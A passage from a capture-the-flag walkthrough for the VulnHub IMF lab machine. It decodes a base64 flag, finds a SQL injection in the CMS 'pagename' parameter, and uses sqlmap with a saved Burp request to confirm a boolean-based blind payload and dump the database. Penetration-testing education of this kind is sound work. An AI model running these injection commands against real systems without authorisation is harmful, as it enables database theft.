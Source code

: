 Looks like base64. We decode as before
```
$ echo Y29udGludWVUT2Ntcw== | base64 -d
continueTOcms
```
We then proceed to the CMS. Poking and proding we discover that the pages seem to be loading from a database. Adding a quote to the url:
`http://192.168.175.133/imfadministrator/cms.php?pagename=disavowlist'`
breaks the page. Buyaa, this page may be vulnerable to SQLinjection we quickly whip out SQLmap as well as Burp. We run curl as well to view the page headers.
```
curl -I http://192.168.175.133/imfadministrator/cms.php?pagename=disavowlist
HTTP/1.1 200 OK
Date: Mon, 25 Sep 2017 06:11:21 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=hge93jbl98enfaevd98davl6e5; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```
Save the GET request we get from Burp and run.
```
sqlmap -o -r imf.req --batch
...
 parameter: pagename (GET)                                                                                
 Type: boolean-based blind                                                                            
 Title: AND boolean-based blind - WHERE or HAVING clause                                              
 Payload: pagename=upload' AND 6741=6741 AND 'bwsY'='bwsY
We now know the pagename parameter is vulnerable. Further we can better identify the box;

 [INFO] the back-end DBMS is MySQL
 web server operating system: Linux Ubuntu 16.04 (xenial)
 web application technology: Apache 2.4.18
 back-end DBMS: MySQL >= 5.0
```
Lets dump the database;
```
sqlmap -o -r imf.req --batch --dump
```
![screenshot 5.png](/assets/images/posts/imf-vulnhub-walkthrough/screenshot 6.png)

This shows an extra item that hadn't been linked __tutorials-incomplete__
![screenshot 5.png](/assets/images/posts/imf-vulnhub-walkthrough/screenshot 7.png)

Navigating to this, gives a QR image . Use a QR reader to read. This gives a flag in base64. Decode and we end up with ;

__uploadr942__


[1]: https://www.vulnhub.com/entry/imf-1,162/
[2]: https://twitter.com/@g3ck0m
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator